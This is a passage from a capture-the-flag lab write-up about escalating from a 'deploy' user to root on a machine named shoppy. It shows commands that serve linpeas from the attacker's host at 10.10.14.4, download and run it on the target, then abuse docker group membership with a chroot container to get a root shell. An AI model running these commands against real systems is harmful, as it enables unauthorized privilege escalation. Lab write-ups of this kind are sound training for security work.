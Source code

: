 ### From deploy to root

- We can now ssh as deploy

![ssh deploy](../.res/2022-12-29-14-01-23.png)

- sudo -l does not help here let's get linpeas. Here are the spec of our target `Linux shoppy 5.10.0-18-amd64 #1 SMP Debian 5.10.140-1 (2022-09-02) x86_64 GNU/Linux`  

- `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64`
- `python3 -m http.server 80`
- And in our target `wget http://10.10.14.4/linpeas_linux_amd64`
- `chmod +x linpeas_linux_amd64`
- `./linpeas_linux_amd64`
- So we need to analyze further a few things
  - It mentions docker as a 95% pe vector so def worth having a look. The deploy user is a member of the docker group. Also I remember of an example that was using this. Let's check [gtfobins](https://gtfobins.github.io/gtfobins/docker/) 
- We can run `docker run -v /:/mnt --rm -it alpine chroot /mnt sh` and it works! We are now root and can grab the last flag.

![root](../.res/2022-12-29-14-23-54.png)
